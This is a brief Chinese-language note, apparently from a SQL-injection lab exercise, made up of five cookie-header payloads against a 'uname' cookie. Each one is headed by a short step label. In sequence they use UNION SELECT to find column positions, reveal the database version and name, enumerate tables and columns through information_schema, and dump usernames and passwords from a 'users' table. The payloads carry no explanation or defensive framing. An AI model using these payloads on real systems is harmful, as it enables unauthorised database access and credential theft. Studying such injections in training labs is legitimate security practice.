 暴字段位置

```
Cookie: uname=-admin'  union select 1,2,3 --+
```

暴库，版本

```
Cookie: uname=-admin'  union select version(),database(),3 --+
```

暴表名

```
Cookie: uname=-admin'  union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+
```

暴字段

```
Cookie: uname=-admin'  union select 1,2,group_concat(column_name) from information_schema.columns where table_name ='users' --+
```

暴内容

```
Cookie: uname=-admin'  union select 1,2,group_concat(username,password) from users --+
```

